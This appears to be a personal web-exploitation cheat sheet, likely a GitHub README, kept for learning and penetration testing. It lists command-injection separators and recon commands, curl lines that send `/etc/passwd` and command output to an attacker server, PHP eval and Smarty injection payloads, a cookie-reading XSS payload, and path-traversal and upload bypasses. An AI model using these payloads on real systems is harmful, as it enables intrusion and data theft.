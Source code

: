 # Cybersecurity Cheatsheet

## Table Of Contents

- [Cybersecurity Cheatsheet](#cybersecurity-cheatsheet)
  - [Table Of Contents](#table-of-contents)
  - [Web Exploitation](#web-exploitation)
    - [Start Hack](#start-hack)
    - [Techniques](#techniques)
  - [Command Injection](#command-injection)
    - [Useful commands](#useful-commands)
    - [Out of band in OS command injection](#out-of-band-in-os-command-injection)
      - [`curl`](#curl)
      - [`ping` and `dig`](#ping-and-dig)
  - [Code Injection](#code-injection)
  - [Server Side Template Injection](#server-side-template-injection)
  - [XSS](#xss)
    - [DOM-Based](#dom-based)
  - [Open Redirect](#open-redirect)
  - [Path Traversal](#path-traversal)
  - [File Upload](#file-upload)
  - [Recon](#recon)
  - [Handwrite Notes](#handwrite-notes)

## Web Exploitation

### Start Hack

1. Work with the website, the workflow, buttons, forms, etc.
2. [OS command injection](#command-injection)
3. Code injection
4. Server side template injection
5. XSS

### Techniques

| Key            | Description                                                      |
| -------------- | ---------------------------------------------------------------- |
| Verb Tampering | Send different methods requests to a path to see vulnerabilities |
| HTTP request   | Use hex or encode URL                                            |
| CORS           | If enabled, the best vulnerability                               |

## Command Injection

| Key                        | Description                                                 |
| -------------------------- | ----------------------------------------------------------- |
| `$ ls;pwd`                 | Run multiple commands with semicolon                        |
| `$ ls && pwd`              | If the first result command is ok, run the second           |
| `$ ls \|\| pwd`            | OR                                                          |
| `$ ls \| pwd`              | Pipe                                                        |
| `$ ls & pwd`               | & shows the PID process. But we use for multiple commands   |
| `$ ping 127.0.0.1;ls -c 1` | Inject `ls; -c 1` or `ls # -c 1` or `ls %23 -c 1` to bypass |

**No result:** what to do if we can not get the command result in response? Use the `sleep 20` command 
to find whether it has vulnerability or not

### Useful commands
When you have identified an OS command injection vulnerability, it is generally useful to execute some initial commands to obtain information about the system that you have compromised. Below is a summary of some commands that are useful on Linux and Windows platforms:

| Purpose of command    | Linux       | Windows       |
| --------------------- | ----------- | ------------- |
| Name of current user  | whoami      | whoami        |
| Operating system      | uname -a    | ver           |
| Network configuration | ifconfig    | ipconfig /all |
| Network connections   | netstat -an | netstat -an   |
| Running processes     | ps -ef      | tasklist      |

### Out of band in OS command injection

#### `curl`

1. Run a server in hacker's computer (better to bind it to `80` or `443` or `53` port)
2. Inject these commands: 
    - `$ curl <addr>/?key=value`
    - to run a command (e.g. `ls -l`) use this command `$ curl <addr> -d "$(ls -l)"`
    - to send file, use this command `$ curl <addr> -d @/etc/passwd`
3. See the logs in the server

#### `ping` and `dig`

Sometimes the HTTP protocol is not allowed, so we can use `ping` or `dig` to send data to the server. The attacker can create a DNS server to receive the data.

## Code Injection

The `eval("print (2 + 2);")` function in PHP runs a code

- e.g. `eval("ping $ip")` **bypass** by adding `"` or `'` or  
**exploit:** `";phpinfo();`

- **Comment:** Maybe we should comment the front codes. Use `//` or `#` for PHP.
- **Input limitation:** execute a shell with `system()` or `shell_exec()` or `exec()` or `aval()` in PHP.
    - e.g. `system($_GET[v])`


## Server Side Template Injection

- Tool for this vulnerability: [tplmap][1]
- Input these: `{2*2}` or `{`
- **exploit:** for PHP and Smarty engine, `{php}phpinfo(){/php}`

## XSS

Check these payloads:

- `<h1></h1>`
- `test">`
- `<script></script>`

Types of XSS:

- Reflected
- Stored
- DOM-based: e.g. `<script>document.write(document.cookie)</script>`

### DOM-Based

DOM-based XSS vulnerabilities usually arise when JavaScript takes data from an attacker-controllable source, such as the URL, 
and passes it to a sink that supports dynamic code execution, such as `eval()` or `innerHTML`. The most common source for DOM 
XSS is the URL, which is typically accessed with the `window.location` object. An attacker can construct a link to send a victim 
to a vulnerable page with a payload in the query string and fragment portions of the URL.

use developer tools to inspect the HTML and find where your string appears. Note that the browser's "View source" option won't 
work for DOM XSS testing because it doesn't take account of changes that have been performed in the HTML by JavaScript.

## Open Redirect

- Header
- Redirect meta tag in HTML
- `window.location` in JavaScript

## Path Traversal

**Pattern:** www.stuff.com/?page=index.php

- Test absolute path: `/etc/passwd`
- Test path traversal: `../../../etc/passwd`
- `../../image.jpg` -> `image.jpg`: The WAF is Replacing the `../`. How to bypass? `....//....//....//etc/passwd `
- The server is concating the extension (e.x. `.jpg`): `/etc/passwd` -> `/etc/passwd.jpg`. How to bypass? Use null byte `%00` in PHP. `/etc/passwd%00.jpg` This will ignore the extension.

## File Upload

- Change the file extension in the request then put the file. Run it with http request and pass parameters.
- Maybe the back-end is checking the content-type. Just change the file extension.
- گاهی محدودیت‌هایی تعریف می‌شود که مثلا فایل `php` در هر فولدری اجرا نشود و به جای آن فقط متنش رو توی مرورگر نشون بده.
برای دور زدنش کافیه `../` باهاش ترکیب کنیم.

## Recon

- **trufflehog:** Find credentials all over the place. [documents][2]
```bash 
$ trufflehog git https://github.com/ILoveBacteria/calculator-telegram-bot --no-update
```

- **SecLists:** The security tester's companion. [documents][3]
- **dirsearch:** A tool designed to brute force directories and files in websites. [documents][4]

## Handwrite Notes

| #     | Key           | Description                                                                 |
| ----- | ------------- | --------------------------------------------------------------------------- |
| **1** | `http.server` | Create a simple fantastic HTTP server with Python. `python3 -m http.server` |
| **2** | `dig`         | `$ dig A <addr>` find the host IP. Maybe this is a virtual host             |
| **3** | VH            | `$ curl <IP> -H "Host: <addr>"`                                             |


[1]: https://github.com/epinna/tplmap
[2]: https://github.com/trufflesecurity/trufflehog
[3]: https://github.com/danielmiessler/SecLists
[4]: https://github.com/maurosoria/dirsearch